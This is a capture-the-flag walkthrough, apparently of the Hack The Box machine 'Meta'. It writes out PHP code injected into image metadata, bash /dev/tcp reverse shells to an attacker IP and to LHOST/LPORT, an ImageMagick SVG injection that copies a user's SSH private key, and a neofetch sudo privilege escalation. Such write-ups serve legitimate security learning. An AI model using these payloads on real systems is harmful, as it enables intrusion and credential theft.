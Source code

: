 # Meta

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Fri Feb  4 15:36:20 2022 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.11.140
Nmap scan report for 10.10.11.140
Host is up, received syn-ack (0.052s latency).
Scanned at 2022-02-04 15:36:34 +07 for 8s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  4 15:36:42 2022 -- 1 IP address (1 host up) scanned in 21.63 seconds
```

Visiting the website on port 80, we're immediately redirected to `artcorp.htb` so we add that to our `/etc/hosts` and continue. Since we have a domain name, I went and fuzz for subdomains.

```sh
$ ffuf -u 'http://artcorp.htb/' -H "Host: FUZZ.artcorp.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 0
dev01                   [Status: 200, Size: 247, Words: 16, Lines: 10, Duration: 44ms]
```

Since `http://artcorp.htb/` has `index.html`, we can also fuzz for files and directories with `.html`.

```sh
$ gobuster dir -u http://artcorp.htb/ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html

/assets               (Status: 301) [Size: 234] [--> http://artcorp.htb/assets/]
/css                  (Status: 301) [Size: 231] [--> http://artcorp.htb/css/]
/index.html           (Status: 200) [Size: 4427]
/server-status        (Status: 403) [Size: 199]
```

Nothing useful there. Going to `http://dev01.artcorp.htb/`, there's only a link to `/metaview/` which allows for file upload. It's always good to have enumeration in the background so we'll also run `gobuster` on this site. Since there's `index.php`, we'll run it with that extension.

```sh
$ gobuster dir -u 'http://dev01.artcorp.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r -x php
/index.php            (Status: 200) [Size: 247]
/server-status        (Status: 403) [Size: 199]

$ gobuster dir -u 'http://dev01.artcorp.htb/metaview/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r -x php
/index.php            (Status: 200) [Size: 1404]
```

No interesting file/directory to be found. The page `/metaview/` seems to allow us to upload images and does something to view their metadata. We can try uploading a PHP file, changing the `Contect-Type` header to `image/png` and naming the file `rev.png.php` but the server would just complain saying `File not allowed (only jpg/png).`. When we upload a valid PNG file, the server would show us its metadata similar to `exiftool`'s output though not quite the same as when we run `exiftool` on the image ourselves. Since this is a PHP application and "Meta" is the name of the box, we can try embedding PHP code in an image's metadata with `exiftool` and upload that.

```sh
$ exiftool rev.png -comment="<?php system('id');?>"
    1 image files updated

$ exiftool rev.png
ExifTool Version Number         : 12.30
File Name                       : rev.png
Directory                       : .
File Size                       : 131 bytes
File Modification Date/Time     : 2022:02:04 16:01:57+07:00
File Access Date/Time           : 2022:02:04 16:02:02+07:00
File Inode Change Date/Time     : 2022:02:04 16:01:57+07:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 14
Image Height                    : 6
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : <?php system('id');?>
Image Size                      : 14x6
Megapixels                      : 0.000084
```

However, after uploading the file, the server doesn't seem to return the output of `id` in the metadata. I also tried using a reverse shell ...

```sh
$ exiftool rev.png -comment="<?php system(\"/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/10.10.14.12/1337 <&1'\");?>"
```

... though that  didn't give us a shell either. Looking at the "Comment" line of the metadata from the server though, we only see `/dev/tcp/10.10.14.12/1337 <&1'");?>` so maybe it just got truncated to the last 39 characters. Since `"<?php system('');?>"` takes up 23 characters, leaving us with a mere 16 characters for the shell, there's not much space to play with. Looking back at trying with `<?php system('id');?>` and `<?php system($_GET["cmd"]);?`, the whole comments aren't show on the page at all so PHP code might get removed altogether after the truncation, unless they're just not shown because they're executed as PHP code at some point.

Looking up "php exiftool exploit", I found [this article on exiftool RCE](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/). Also, looking up just "exiftool exploit" got me [this exploit](https://github.com/convisolabs/CVE-2021-22204-exiftool) which can easily set us up for an easy RCE. After changing the IP and port, running the exploit, setting up a listener, and uploading the generated `image.jpg`, I got a shell on the machine as `www-data`.

Checking `/home` and `/etc/passwd`, we see there's the user `thomas` which we probably need to privesc to. In his home is `.config/neofetch/config.conf`, and we're able to run `neofetch` on the machine. Not much can be done with it though, at least at this point. After some more looking around without results, I uploaded and ran `pspy`. Not much waiting later, I saw an interesting event.

```
2022/02/04 04:43:01 CMD: UID=1000 PID=15487  | /bin/bash /usr/local/bin/convert_images.sh
```

Checking the file `/usr/local/bin/convert_images.sh` ...

```sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

... we see that `/usr/local/bin/mogrify` from `ImageMagick` is being run on files inside `/var/www/dev01.artcorp.htb/convert_images/`. After some searching around on DuckDuckGo, searching "imagemagick injection" leads to [this ImageMagick issue](https://github.com/ImageMagick/ImageMagick/discussions/2851) which then leads to [this blog post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) detailing how to get shell injection. Using the provided PoC, I put `poc.svg` in `/var/www/dev01.artcorp.htb/convert_images/` (note that `/tmp/` doesn't work so I used `/dev/shm/` instead) and waited and got the `id` output. After the confirmation, the following `poc.svg` was used to grab thomas's SSH key.

```svg
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/thomas`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

With that, we should be able to SSH in as thomas. Checking our `sudo` privileges ...

```sh
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

We can run `neofetch` as root with no password. Additionally, `env_keep+=XDG_CONFIG_HOME` is kept, meaning when `neofetch` is run with `sudo`, it will use thomas's `XDG_CONFIG_HOME` which can be set to `/home/thomas/.config/`. Looking at [the neofetch wiki's Customizing-Info page](https://github.com/dylanaraps/neofetch/wiki/Customizing-Info#prin), we see that we can have `neofetch` run custom commands so I added a reverse shell line at the end of `print_info()`.

```
print_info() {
    info title
    info underline

    info "OS" distro
    info "Host" model
    info "Kernel" kernel
    info "Uptime" uptime
    info "Packages" packages
    info "Shell" shell
    info "Resolution" resolution
    info "DE" de
    info "WM" wm
    info "WM Theme" wm_theme
    info "Theme" theme
    info "Icons" icons
    info "Terminal" term
    info "Terminal Font" term_font
    info "CPU" cpu
    info "GPU" gpu
    info "Memory" memory

    # info "GPU Driver" gpu_driver  # Linux/macOS only
    # info "CPU Usage" cpu_usage
    # info "Disk" disk
    # info "Battery" battery
    # info "Font" font
    # info "Song" song
    # [[ $player ]] && prin "Music Player" "$player"
    # info "Local IP" local_ip
    # info "Public IP" public_ip
    # info "Users" users
    # info "Locale" locale  # This only works on glibc systems.

    info cols
    prin "root" "$(bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1')"
}
```

After that, simply set up a listener and run `XDG_CONFIG_HOME=/home/thomas/.config/ sudo neofetch` to get a shell as root on the machine.

